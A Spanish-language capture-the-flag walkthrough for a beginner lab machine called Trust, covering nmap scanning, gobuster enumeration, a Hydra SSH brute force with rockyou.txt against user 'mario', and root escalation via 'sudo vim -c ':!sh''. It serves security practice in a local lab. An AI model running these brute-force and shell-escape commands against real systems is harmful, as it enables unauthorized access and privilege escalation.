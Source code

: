 # 🔐 Máquina: Trust  
**Dificultad:** Muy Fácil  

## 📌 Descripción  
La máquina Trust está diseñada para practicar técnicas básicas de enumeración web, fuerza bruta por SSH y escalada de privilegios a través de la ejecución de binarios con permisos elevados.

---

## ⚙️ Despliegue de la Máquina  

Primero descargamos el archivo comprimido y lo descomprimimos con:

```bash
unzip trust.zip
```

Luego desplegamos la máquina con:

```bash
sudo bash auto_deploy.sh trust.tar
```

![Inicio del despliegue](/Trust/Imagenes/Inicio.jpeg)

---

## 📡 Verificación de Conectividad  

Verificamos que la máquina esté activa con un simple ping a su IP (172.18.0.2):

```bash
ping -c4 172.18.0.2
```

![Ping a la máquina](/Trust/Imagenes/Ping.jpeg)

---

## 🔎 Escaneo de Puertos con Nmap  

Ejecutamos un escaneo de todos los puertos para descubrir servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allPorts.txt
```

**Puertos detectados:**  
- **22/tcp** (SSH)  
- **80/tcp** (HTTP)

![Puertos abiertos](/Trust/Imagenes/Puertos.jpeg)

---

## 📂 Extracción de Puertos  

Usamos un script personalizado para extraer la IP y puertos abiertos desde el resultado anterior y realizar un escaneo más detallado:

```bash
nmap -sC -sV -p 22,80 172.18.0.2 -oN target.txt
```

**Opciones utilizadas:**
- `-sC`: Scripts por defecto de Nmap.
- `-sV`: Detección de versiones.
- `-p 22,80`: Puertos específicos detectados previamente.
- `-oN`: Salida en formato legible.

![Detección de servicios](/Trust/Imagenes/Servicios.jpeg)

---

## 🌐 Exploración del Servicio Web  

Visitamos la dirección web en el puerto 80 y encontramos la página por defecto de Apache:

![Página web por defecto](/Trust/Imagenes/Pagina.jpeg)

---

## 🗂️ Enumeración de Directorios con Gobuster  

Utilizamos **Gobuster** para buscar recursos ocultos en el servidor web:

```bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```

Con esta búsqueda encontramos una página `.php` interesante.

![Salida de Gobuster (vista desde BurpSuite)](/Trust/Imagenes/Burpsuite.jpeg)  
![Página descubierta](/Trust/Imagenes/Web.jpeg)

---

## 🧪 Ataque de Fuerza Bruta con Hydra  

Como el servicio SSH está activo, comenzamos pruebas para identificar credenciales válidas. Probamos con `root`, y luego con el nombre `Mario`, hasta que identificamos que el usuario correcto es `mario`.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![Ataque con Hydra](/Trust/Imagenes/Hydra.jpeg)

---

## ✅ Acceso por SSH  

Ingresamos al sistema con el usuario `mario` y la contraseña encontrada:

```bash
ssh mario@172.18.0.2
```

![Acceso SSH exitoso](/Trust/Imagenes/SSH.jpeg)

---

## ⬆️ Escalada de Privilegios  

Revisamos los permisos sudo del usuario `mario` con:

```bash
sudo -l
```

Se muestra que `mario` puede ejecutar `/usr/bin/vim` como **cualquier usuario**, incluyendo `root`.

Para obtener una shell como root desde `vim`, ejecutamos:

```bash
sudo /usr/bin/vim -c ':!sh'
```

Esto funciona porque `vim` se está ejecutando como root, y el comando `:!sh` invoca una shell con esos mismos privilegios.

![Escalada de privilegios con Vim](/Trust/Imagenes/Escalada.jpeg)

---

## 🧠 Conclusión  

La máquina **Trust** ofrece un excelente ejercicio introductorio para practicar:
- Despliegue y verificación de entornos Docker vulnerables.
- Enumeración de puertos y servicios con Nmap.
- Búsqueda de recursos web ocultos con Gobuster.
- Ataques de fuerza bruta con Hydra.
- Escalada de privilegios mediante binarios con permisos sudo.
